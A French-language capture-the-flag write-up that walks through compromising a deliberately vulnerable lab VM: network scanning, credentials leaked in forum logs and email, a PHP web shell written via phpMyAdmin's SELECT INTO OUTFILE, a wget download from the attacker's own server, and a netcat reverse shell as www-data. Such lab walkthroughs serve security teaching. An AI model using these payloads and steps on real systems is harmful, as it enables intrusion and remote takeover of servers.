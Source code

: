 Une fois l'iso lancé, on cherche son IP sur le réseau:

`nmap -sP 192.1.1.0/24`

On scan ensuite les dossiers utilisés par la plupart des appli et serveurs web:

`nmap -sV --script=http-enum <IP>`

On trouve les chemins suivants:

 > /forum/: Forum
 > /phpmyadmin/: phpMyAdmin
 > /webmail/src/login.php: squirrelmail version 1.4.22
 > /webmail/images/sm_logo.png: SquirrelMail

On se rend sur le forum, dans lequel on trouve un topic 'Probleme login ?' posté par lmezard.
Il contient des logs de connexions.
On remarque que le log précédent la connexion réussie de lmezard contient un username ressemblant a un mot de passe :
 
 > ``!q\]Ej?*5K5cy*AJ``

On utiliser ces credentials pour se connecter au forum.
On accede au profil perso de lmezard dans lequel apparait son adresse mail :

> laurie@borntosec.net

On se rend sur le webmail, et on utilise le mail de lmezard avec son MDP du forum.
Dans la boite, un mail dont l'objet est "DB Access" contient les credentials de root pour la DB :

> root/Fg-'kKXBj87E:aJ$

On se rend sur phpMyAdmin, et on utilise les credentials trouvés dans le mail.
En cliquant sur l'onglet SQL on peut effectuer une injection SQL sur le serveur.
Pour cela on a besoin de lancer la requete suivante:

`SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/path/to/writable/directory/backdoor.php"`

On a donc besoin de trouver un dossier sur le serveur avec droits d'écriture. Sinon la requête fail.

On utilise la commande dirb pour scanner les dossiers du serveur:

`dirb https://<IP>`

On trouve toute une liste de dossiers, listables ou non, on les teste les listables, on arrive a écrire dans 

> /forum/templates_c/

Le serveur apache utilise le chemin classique "/var/www" pour stocker ses sites.
On lance donc la requête:

`SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/forum/templates_c/backdoor.php"`

Le fichier backdoor.php va donc exéctuer sur le serveur toute commande passée en argument dans l'URL, par exemple: 

`https://<IP>/forum/templates_c/backdoor.php?cmd=ls`

On obtient bien la liste des fichiers présents dans le dossier.

Pour faciliter la navigation dans le filesystem, on peut uploader un reverse shell sur le serveur pour s'y connecter en remote.
On récupère un reverse-shell sur le web qu'on configure pour fonctionner avec nos VM.
Pour uploader ce shell sur le serveur, on le place sur un serveur perso et on utilise notre backdoor.
Sur le serveur perso, on place php-reverse-shell à la racine du site.
Sur un browser on lance:

`https://<IP>/forum/templates_c/backdoor.php?cmd=wget http://<IPserveur>/php-reverse-shell -O php-reverse-shell.php`

Le shell est désormais sur le serveur.
On ouvre une connexion TCP sur l'hôte :
 
`nc -v -n -l -p 1234`

Puis on lance le shell sur le serveur :

`https://<IP>/forum/templates_c/php-reverse-shell.php`

La connexion s'effectue sur l'hôte, on a accès à un terminal sous le user www-data.
